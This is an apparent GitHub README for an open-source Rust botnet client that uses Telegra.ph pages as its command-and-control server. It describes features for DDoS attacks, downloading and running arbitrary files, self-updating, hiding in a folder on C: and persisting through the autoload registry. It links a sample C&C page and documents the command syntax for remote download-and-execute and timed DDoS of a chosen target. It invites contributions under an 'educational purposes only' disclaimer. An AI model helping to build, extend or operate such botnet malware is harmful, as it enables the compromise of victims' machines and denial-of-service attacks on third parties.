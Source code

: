 # Rust Botnet
Example botnet client which uses Telegra.ph as a C&C server.

## Features
* DoS attack feature.
* Loader & Executer of any files.
* Update feature.
* Program adds itself to autoload register and moves to hidden folder in C:/ drive root.
* Botnet deletion by command.

Notice, that this is not production ready version. 
There are many bugs which are waiting for a fix.

## Example & List of commands
Example of a C&C server is located [here](https://telegra.ph/Cls93sog103ekfSfKTEsto294kfaozwkd394-rktkcsd-krfasseegpe11-03-20).
Botnet uses the next syntax - `command{split}value` or `command{split}value{sep}value's_value`
### Available commands
* `download_exec{split}LINK_TO_FILE` - download and run a file which is located at `LINK_TO_FILE`.
* `ddos{split}TARGET{sep}TIME` - ddos a `TARGET` for `TIME` seconds.
* `upgrade{split}LINK_TO_FILE{sep}VERSION` - download and install an update which is located at `LINK_TO_FILE`. Update will be installed only if botnet's file version is lower than `VERSION`.
* `stop{split}` - you should use that command to stop the previous command execution.
* `delete_botnet{split}` - delete the botnet and it's registry notes from the client's PC.
* `exit{split}` - close botnet's executable file.

## Help
If you need any help at all, feel free to post a issue.
 
## Contributing
Contributing is encouraged and will help make a better program. Please refer to [this](https://github.com/MarcDiethelm/contributing/blob/master/README.md) before contributing.

## Disclaimer
This program must be used for educational purposes only!
I am not responsible for anything you do with it.

## Licence
This project is licensed under the MIT License - see the [LICENSE.md](https://github.com/Ookldev/rust_botnet/blob/master/LICENSE) file for details.

